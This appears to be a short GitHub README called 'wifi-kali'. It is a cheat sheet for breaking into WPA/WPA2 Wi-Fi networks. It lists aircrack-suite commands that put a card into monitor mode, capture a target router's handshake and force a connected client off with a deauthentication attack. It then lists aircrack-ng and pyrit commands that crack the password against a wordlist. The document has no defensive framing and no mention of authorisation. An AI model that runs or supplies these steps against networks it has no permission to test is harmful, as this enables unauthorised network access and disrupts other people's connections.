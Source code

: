 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

## Extract handshake
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /mnt/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

## Crack password

### aircrack-ng
* aircrack-ng -a2 -b {target_router_bssid} -w /mnt/wordlist.txt /mnt/*.cap

### pyrit
* pyrit -r mon0-01.cap analyze
* pyrit -u sqlite:///mydb.db -i wordlist.txt import_passwords
* pyrit -u sqlite:///mydb.db -e {attacked_network_name} create_essid
* #pyrit eval
* pyrit -u sqlite:///mydb.db batch
* pyrit -u sqlite:///mydb.db -r *.cap attack_db
